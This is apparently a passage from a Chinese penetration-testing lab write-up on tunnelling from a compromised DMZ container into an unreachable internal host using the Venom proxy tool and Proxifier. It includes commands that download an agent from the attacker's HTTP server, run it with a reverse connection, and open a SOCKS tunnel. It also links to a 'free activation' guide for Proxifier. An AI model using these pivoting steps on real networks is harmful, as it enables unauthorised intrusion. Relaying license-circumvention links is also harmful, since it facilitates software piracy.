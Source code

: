 尝试在 `dmz-app` 上访问 `yunwei-app`
```sh
curl http://172.19.0.2:8080
```
回显为 `ok`，再次验证 `yunwei-app` 的位置。

`yunwei-app` 处于内网之中，不出网，所以要内网穿透穿出来。

接下来使用 `venom` 实现内网穿透。
https://github.com/Dliv3/Venom

本地检测 5001 端口
```sh
./admin.exe -lport 5001
```

![[Pasted image 20241212205907.png]]

在 `dmz-app` 上查看版本信息，选择正确的 `venom` 版本。
```sh
uname -m
x86_64
```

本地开好 `python http.server` ，`dmz-app` 上下载。
```sh
curl http://192.168.216.1:8000/agent_linux_x64 -o agent
chmod 777 agent
```

`dmz-app` 上：
```sh
./agent -rhost 192.168.216.1 -rport 5001
```
连接成功。

展示网络拓扑结构，走到 `node1`。（以下 `dmz-app` 简称 `node1`）
```
show
goto 1
```

![[Pasted image 20241212210612.png]]

在 `node1` 上：
```
socks 1001
```
将 `node1` 的代理发到本地的 1001 端口上。

接下来配好 proxifier 。
下载及免费激活： https://www.cnblogs.com/wushiyiwuzhong/p/17809020.html

在 `proxy servers` 
![[Pasted image 20241212215230.png]]

在 `proxy rule`
![[Pasted image 20241212215309.png]]
